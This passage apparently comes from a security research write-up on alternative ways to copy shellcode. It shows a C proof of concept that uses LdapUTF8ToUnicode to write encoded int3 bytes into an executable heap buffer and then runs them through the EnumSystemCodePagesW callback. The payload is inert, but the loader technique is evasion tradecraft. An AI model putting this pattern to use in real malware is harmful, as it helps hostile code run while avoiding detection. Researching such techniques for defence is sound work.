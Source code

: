 
# One-shot functions
Most of the functions falling into this category are functions used to convert info from format "A" to format "B", or those applying any type of transformation to this info. This kind of functions can be spotted checking their arguments: if it receives an input buffer and an output buffer, it is a good candidate. Let's check `LdapUTF8ToUnicode` for example:

```c
WINLDAPAPI int LDAPAPI LdapUTF8ToUnicode(
  LPCSTR lpSrcStr,
  int    cchSrc,
  LPWSTR lpDestStr,
  int    cchDest
);
``` 

So, the parameters are:

```
lpSrcStr - A pointer to a null-terminated UTF-8 string to convert.
lpDestStr - A pointer to a buffer that receives the converted Unicode string, without a null terminator.
```

This is a good candidate that meets our criteria. We can test it with a simple PoC in C:

```c
#include <Windows.h>
#include <Winldap.h>

#pragma comment(lib, "wldap32.lib")

int main(int argc, char** argv) {
	LPCSTR orig_shellcode = "\xec\xb3\x8c\xec\xb3\x8c"; // \xcc\xcc\xcc\xcc in UNICODE
	LPWSTR copied_shellcode = NULL;
	HANDLE heap = NULL;
	int ret = 0;
	int size = 0;
	
	heap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
	copied_shellcode = HeapAlloc(heap, 0, 0x10);
	size = LdapUTF8ToUnicode(orig_shellcode, strlen(orig_shellcode), NULL, 0); // First call is to know the size
	ret = LdapUTF8ToUnicode(orig_shellcode, strlen(orig_shellcode), copied_shellcode, size);
	EnumSystemCodePagesW(copied_shellcode, 0); // Just to trigger the execution. Taken from Nootrak article.
	return 0;
}
```
As this function works doing a conversion from UTF-8 to UNICODE, we have to craft our shellcode (in this case just a bunch of int3) keeping this in mind.

<figure>
<img src="/alternatives-copy-shellcode/ldaputf8tounicode-vscode.png" alt="Shellcode copied to our target RWX buffer">
<figcaption>
Shellcode copied to our target RWX buffer.
</figcaption>
</figure>
